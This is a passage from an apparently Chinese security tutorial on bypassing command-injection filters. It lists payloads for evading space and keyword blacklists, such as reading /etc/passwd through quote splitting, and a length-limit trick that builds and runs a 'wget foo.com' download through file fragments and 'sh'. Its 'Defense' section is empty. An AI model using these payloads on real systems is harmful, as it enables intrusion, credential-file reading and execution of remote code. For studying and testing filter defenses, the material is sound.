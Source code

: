 3.5.5. 常见绕过方式

3.5.5.1. 空格绕过

- < 符号 cat<123
- \t / %09
- ${IFS} 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

3.5.5.2. 黑名单绕过

- a=l;b=s;$a$b
- base64 echo "bHM=" | base64 -d
- /?in/?s => /bin/ls
- 连接符 cat /etc/pass'w'd
- 未定义的初始化变量 cat$x /etc/passwd


3.5.5.3. 长度限制绕过

>wget\ 

>foo.\ 

>com 

ls -t>a 

sh a

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行 直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件


---
3.5.6. 常用符号

3.5.6.1. 命令分隔符

- %0a / %0d / \n / \r
- ;
- & / &&

3.5.6.2. 通配符

- 
```
* 0到无穷个任意字符
```

- ? 一个任意字符
- [  ] 一个在括号内的字符，e.g. [abcd]
- [ - ] 在编码顺序内的所有字符
- [^ ] 一个不在括号内的字符



---
3.5.7. 防御
